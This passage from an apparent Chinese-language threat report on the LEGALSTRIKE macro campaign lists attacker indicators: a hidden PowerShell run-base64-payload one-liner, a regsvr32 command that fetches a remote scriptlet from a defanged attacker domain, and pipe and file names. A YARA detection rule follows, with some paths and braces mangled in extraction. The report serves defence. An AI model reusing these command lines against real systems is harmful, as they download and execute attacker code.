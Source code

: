 **进程、管道和文件路径**

Process arguments, named pipes, and file paths



```
npowershell.exe -NoP -NonI -W Hidden -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String("&lt;base64 blob&gt;")
regsvr32.exe /s /n /u /i:hxxps://lyncdiscover.2bunny.com/Autodiscover scrobj.dll
\&lt;ip&gt;pipemsagent_&lt;4 digits&gt;
C:Documents and Settings&lt;user&gt;Local SettingsTempK5om.dll (4 character DLL based on URI of original GET request)
```

[**Yara**](http://www.freebuf.com/articles/system/26373.html)**规则**

```
rule FE_LEGALSTRIKE_MACRO `{`
  meta:version=".1"
  filetype="MACRO"
  author="Ian.Ahl@fireeye.com @TekDefense"
  date="2017-06-02"
  description="This rule is designed to identify macros with the specific encoding used in the sample 30f149479c02b741e897cdb9ecd22da7."
strings:
  // OBSFUCATION
  $ob1 = "ChrW(114) &amp; ChrW(101) &amp; ChrW(103) &amp; ChrW(115) &amp; ChrW(118) &amp; ChrW(114) &amp; ChrW(51) &amp; ChrW(50) &amp; ChrW(46) &amp; ChrW(101)" ascii wide
  $ob2 = "ChrW(120) &amp; ChrW(101) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(115) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(110) &amp; ChrW(32) &amp; ChrW(47)" ascii wide
  $ob3 = "ChrW(117) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(105) &amp; ChrW(58) &amp; ChrW(104) &amp; ChrW(116) &amp; ChrW(116) &amp; ChrW(112) &amp; ChrW(115)" ascii wide
  $ob4 = "ChrW(58) &amp; ChrW(47) &amp; ChrW(47) &amp; ChrW(108) &amp; ChrW(121) &amp; ChrW(110) &amp; ChrW(99) &amp; ChrW(100) &amp; ChrW(105) &amp; ChrW(115)" ascii wide
  $ob5 = "ChrW(99) &amp; ChrW(111) &amp; ChrW(118) &amp; ChrW(101) &amp; ChrW(114) &amp; ChrW(46) &amp; ChrW(50) &amp; ChrW(98) &amp; ChrW(117) &amp; ChrW(110)" ascii wide
  $ob6 = "ChrW(110) &amp; ChrW(121) &amp; ChrW(46) &amp; ChrW(99) &amp; ChrW(111) &amp; ChrW(109) &amp; ChrW(47) &amp; ChrW(65) &amp; ChrW(117) &amp; ChrW(116)" ascii wide
  $ob7 = "ChrW(111) &amp; ChrW(100) &amp; ChrW(105) &amp; ChrW(115) &amp; ChrW(99) &amp; ChrW(111) &amp; ChrW(118) &amp; ChrW(101) &amp; ChrW(114) &amp; ChrW(32)" ascii wide
  $ob8 = "ChrW(115) &amp; ChrW(99) &amp; ChrW(114) &amp; ChrW(111) &amp; ChrW(98) &amp; ChrW(106) &amp; ChrW(46) &amp; ChrW(100) &amp; ChrW(108) &amp; ChrW(108)" ascii wide
  $obreg1 = /(w`{`5`}`s&amp;s)`{`7`}`w`{`5`}`/
  $obreg2 = /(Chrw(d`{`1,3`}`)s&amp;s)`{`7`}`/
  // wscript
  $wsobj1 = "Set Obj = CreateObject("WScript.Shell")" ascii wide
  $wsobj2 = "Obj.Run " ascii wide
 
condition:
   (
    (
       (uint16(0) != 0x5A4D)
    )
    and
    (
       all of ($wsobj*) and 3 of ($ob*)
       or
       all of ($wsobj*) and all of ($obreg*)
    )
  )
`}`
 
rule FE_LEGALSTRIKE_MACRO_2 `{`
  meta:version=".1"
  filetype="MACRO"
```